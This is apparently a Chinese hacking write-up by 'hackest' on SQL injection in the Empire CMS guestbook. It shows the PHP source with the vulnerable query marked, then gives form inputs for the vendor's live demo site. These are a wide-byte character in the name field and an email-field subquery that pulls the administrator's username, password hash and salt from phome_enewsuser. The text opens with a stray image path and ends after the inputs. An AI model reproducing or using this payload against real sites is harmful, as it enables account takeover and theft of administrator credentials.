 <span><span><span>//权限</span></span><span>&nbsp;</span></span><span><span>if</span><span>(</span><span>$gbr</span><span>[</span><span>'groupid'</span><span>])&nbsp;</span></span><span>{&nbsp;</span><span><span>include</span><span>(</span><span>"../../class/user.php"</span><span>);&nbsp;</span></span><span><span>$user</span><span>=islogin();&nbsp;</span></span><span><span>include</span><span>(</span><span>"../../class/MemberLevel.php"</span><span>);&nbsp;</span></span><span><span>if</span><span>(</span><span>$level_r</span><span>[</span><span>$gbr</span><span>[groupid]][level]></span><span>$level_r</span><span>[</span><span>$user</span><span>[groupid]][level])&nbsp;</span></span><span>{&nbsp;</span><span><span>echo</span><span>"<script>alert(&#8216;您的会员级别不足("</span><span>.</span><span>$level_r</span><span>[</span><span>$gbr</span><span>[groupid]][groupname].</span><span>")，没有权限提交信息!&#8217;);history.go(-1);</script>"</span><span>;&nbsp;</span></span><span><span>exit</span><span>();&nbsp;</span></span><span>}&nbsp;</span><span>}&nbsp;</span><span>esetcookie(<span>"gbookbid"</span><span>,</span><span>$bid</span><span>,0);&nbsp;</span></span><span><span>$bname</span><span>=</span><span>$gbr</span><span>[</span><span>'bname'</span><span>];&nbsp;</span></span><span><span>$search</span><span>=</span><span>"&bid=$bid"</span><span>;&nbsp;</span></span><span><span>$page</span><span>=(int)</span><span>$_GET</span><span>[</span><span>'page'</span><span>];&nbsp;</span></span><span><span>$start</span><span>=(int)</span><span>$_GET</span><span>[</span><span>'start'</span><span>];&nbsp;</span></span><span><span>$line</span><span>=12;</span><span><span>//每页显示条数</span></span><span>&nbsp;</span></span><span><span>$page_line</span><span>=12;</span><span><span>//每页显示链接数</span></span><span>&nbsp;</span></span><span><span>$offset</span><span>=</span><span>$start</span><span>+</span><span>$page</span><span>*</span><span>$line</span><span>;</span><span><span>//总偏移量</span></span><span>&nbsp;</span></span><span><span>$totalnum</span><span>=(int)</span><span>$_GET</span><span>[</span><span>'totalnum'</span><span>];&nbsp;</span></span><span><span>if</span><span>(</span><span>$totalnum</span><span>)&nbsp;</span></span><span>{&nbsp;</span><span><span>$num</span><span>=</span><span>$totalnum</span><span>;&nbsp;</span></span><span>}&nbsp;</span><span><span>else</span><span>&nbsp;</span></span><span>{&nbsp;</span><span><span>$totalquery</span><span>=</span><span>"select&nbsp;count(*)&nbsp;as&nbsp;total&nbsp;from&nbsp;{$dbtbpre}enewsgbook&nbsp;where&nbsp;bid=&#8217;$bid&#8217;&nbsp;and&nbsp;checked=0"</span><span>;&nbsp;</span></span><span><span>$num</span><span>=</span><span>$empire</span><span>->gettotal(</span><span>$totalquery</span><span>);</span><span><span>//取得总条数</span></span><span>&nbsp;</span></span><span>}&nbsp;</span><span><span>$search</span><span>.=</span><span>"&totalnum=$num"</span><span>;&nbsp;</span></span><span><span>$query</span><span>=</span><span>"select&nbsp;lyid,name,email,`call`,lytime,lytext,retext&nbsp;from&nbsp;{$dbtbpre}enewsgbook&nbsp;where&nbsp;bid=&#8217;$bid&#8217;&nbsp;and&nbsp;checked=0"</span><span>;</span><span><span>//hackest注解：关键是这一句，与上面举例的何其相似啊！</span></span><span>&nbsp;</span></span><span><span>$query</span><span>=</span><span>$query</span><span>.</span><span>"&nbsp;order&nbsp;by&nbsp;lyid&nbsp;desc&nbsp;limit&nbsp;$offset,$line"</span><span>;&nbsp;</span></span><span><span>$sql</span><span>=</span><span>$empire</span><span>->query(</span><span>$query</span><span>);&nbsp;</span></span><span><span>$listpage</span><span>=page1(</span><span>$num</span><span>,</span><span>$line</span><span>,</span><span>$page_line</span><span>,</span><span>$start</span><span>,</span><span>$page</span><span>,</span><span>$search</span><span>);&nbsp;</span></span><span><span>$url</span><span>=</span><span>"<a&nbsp;href=../../../>"</span><span>.</span><span>$fun_r</span><span>[</span><span>'index'</span><span>].</span><span>"</a>&nbsp;>&nbsp;"</span><span>.</span><span>$fun_r</span><span>[</span><span>'saygbook'</span><span>];&nbsp;</span></span><span>?>&nbsp;</span> 

注 意注释部分！ 作者：hackest [H.S.T.]  
注 意注释部分！就直接拿官方测试吧，我就不本机折腾了。官方演示站点：http://demo.phome.net/，还别说，界面倒是蛮清爽的，难怪这么 多站长用咯。直奔留言本页面：http://demo.phome.net/e/tool/gbook/?bid=1，注意要带上bid=1（我下载了套 最新版的帝国CMS，e/tool/gbook目录下就一个index.php文件，直接访问它会有错误提示，并跳转至前一个页面）。然后下拉至“请您留 言:”处，按如下要求填写相关信息：  
姓名：123縗  
联系邮箱：,1,1,1,(select concat(username,0x5f,password,0x5f,rnd) from phome_enewsuser where userid=1),1,1,1,0,0,0)/*  
联系电话：随便写  
留言内容：随便写
